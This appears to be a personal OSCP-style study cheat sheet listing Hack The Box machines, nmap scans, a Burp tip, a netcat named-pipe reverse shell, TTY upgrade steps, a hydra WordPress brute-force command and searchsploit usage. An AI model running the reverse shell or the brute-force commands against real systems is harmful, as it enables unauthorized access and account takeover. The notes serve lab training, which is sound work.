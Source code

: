 # HTB boxes
- [x] Lame
- [x] Beep
- [ ] Bastard
- [ ] Grandpa/Granny
- [x] Mirai
- [x] Solidstate
- [ ] Jeeves
- [ ] Tally (Much harder than anything on OSCP, but you've gotta get used to windows)
- [x] Bashed
- [x] Nibbles
- [ ] Sense
- [ ] Valentine
- [ ] Bart (Again, same issue but really get used to windows)
- [ ] Chatterbox
- [ ] Popcorn
- [ ] Haircut
- [ ] Nineveh
- [ ] Shocker
- [ ] Cronos
- [ ] Arctic
- [ ] Optimum
- [ ] Davel

### nmaps

nmap -sV --script=exploit,external,vuln,auth,default -oN nmap-version-exploits.txt 10.11.1.220

nmap -sV --reason --dns-server 10.11.1.220 -oN nmap-versions.txt 10.11.1.220

nmap -sC -sV -oA

use burp proxy backwards
- add new proxy listener. then put localhost to a port for the ip you want to inspect. now when you connect to it with the web browser on port 80 you will intercept everything

### getting an actual terminal

#### 1

`victim$ mknod /tmp/backpipe p`

`victim$ /bin/sh 0</tmp/backpipe | nc 10.10.14.9 445 1>/tmp/backpipe `

#### 2

maybe set `TERM=xterm`

to edit the file `^Z` to background the shell.

now `stty raw -echo` then `fg` the shell then hit enter a few times.

### assorted

- hydra -V -l admin -P /usr/share/wordlists/rockyou.txt 10.11.1.234 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=ERROR" -t 32 -I
- searchsploit -x to view
- searchsploit -p copies to clipboard
